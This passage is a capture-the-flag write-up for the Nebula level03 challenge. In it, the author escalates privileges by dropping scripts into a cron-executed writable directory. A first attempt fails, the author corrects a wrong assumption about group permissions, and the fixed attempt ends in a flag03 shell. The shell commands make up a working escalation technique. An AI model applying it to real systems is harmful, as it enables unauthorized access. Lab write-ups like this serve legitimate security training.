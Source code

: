 Temporary setback... I have another solution in mind.

### Solution 2
Our goal is to get the output "You have successfully executed getflag on a target account" from executing `getflag` as `flag03`, so why not just execute `getflag` in the bash script directly instead of beating around the bush?

```
level03@nebula:~$ echo -e '/bin/getflag >> /tmp/output' > attempt2.sh && chmod +x attempt2.sh && cp attempt2.sh /home/flag03/writable.d/attempt2.sh && touch /tmp/output && ls /home/flag03/writable.d
attempt2.sh
level03@nebula:~$ 
```
`/bin/getflag >> /tmp/output` executes `/bin/getflag` and pipes its output to `/tmp/output`. When `cron` runs this bash script, it will execute `/bin/getflag` as `flag03`, and we get our output in `/tmp/output` (at least ideally).

```
--- after a few minutes ---

level03@nebula:~$ cat /tmp/output 
level03@nebula:~$
```
What in the actual hell? Where's my output? Since `/home/flag03/writable.d/attempt2.sh` is deleted, that means `cron` ran that bash script. But `/tmp/output` is empty.

### Mistakes found & fixed

The problem with solutions 1 & 2 is that I did not take into account the fact that both users `level03` and `flag03` have different groups. I (wrongly) assumed they were from the same group simply because their home directories have the same group. The output just means that both directories are *accessible* by members of group `level03`. 
```
drwxr-x--- 1 flag03  level03  80 2018-04-01 08:36 flag03
drwxr-x--- 1 level03 level03 180 2018-04-01 08:25 level03
```
That was obviously a wrong assumption, as shown by `id` below.
```
level03@nebula:/home/flag03$ id flag03
uid=996(flag03) gid=996(flag03) groups=996(flag03)
level03@nebula:/home/flag03$ id level03
uid=1004(level03) gid=1004(level03) groups=1004(level03)
```

##### Solution 1 remastered
In order for solution 1 to work, I had to move `attempt1.c` and `attempt.sh` to `/tmp`.
```
level03@nebula:/home/flag03/writable.d$ mv /home/level03/attempt1.c /tmp/
level03@nebula:/home/flag03/writable.d$ mv /home/level03/attempt1.sh /tmp/
level03@nebula:/home/flag03/writable.d$ ls
level03@nebula:/home/flag03/writable.d$ cat /tmp/output 
level03@nebula:/home/flag03/writable.d$ nano /tmp/attempt1.sh
level03@nebula:/home/flag03/writable.d$ cp /tmp/attempt1.sh .
level03@nebula:/home/flag03/writable.d$ ls
attempt1.sh

--- after a few minutes ---

level03@nebula:/home/flag03/writable.d$ ls
level03@nebula:/home/flag03/writable.d$ ls ..
a.out  writable.d  writable.sh
level03@nebula:/home/flag03/writable.d$ cd ..
level03@nebula:/home/flag03$ ./a.out 
flag03@nebula:/home/flag03$ getflag
You have successfully executed getflag on a target account
flag03@nebula:/home/flag03$ 
```
